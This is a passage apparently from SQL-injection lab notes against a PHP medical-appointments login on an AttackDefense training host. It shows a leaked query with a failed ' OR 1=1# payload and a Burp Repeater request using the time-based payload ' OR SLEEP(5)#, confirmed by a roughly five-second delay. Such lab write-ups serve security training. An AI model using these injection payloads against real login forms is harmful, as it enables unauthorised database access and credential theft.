 ```http
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Content-Length: 6205
consulta: SELECT `password` as password  
		FROM `usuarios` WHERE `login`='' OR 1=1#'<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

[...]

<!-- inicio del contenido -->

          Usuario no autenticado<br />
Para acceder al demo:<br />
usuario: admin<br />
password admin
<!-- <h1>Administraci&oacute;n de cuentas </h1> -->

[...]
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR SLEEP(5)#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

5,201 millis
```
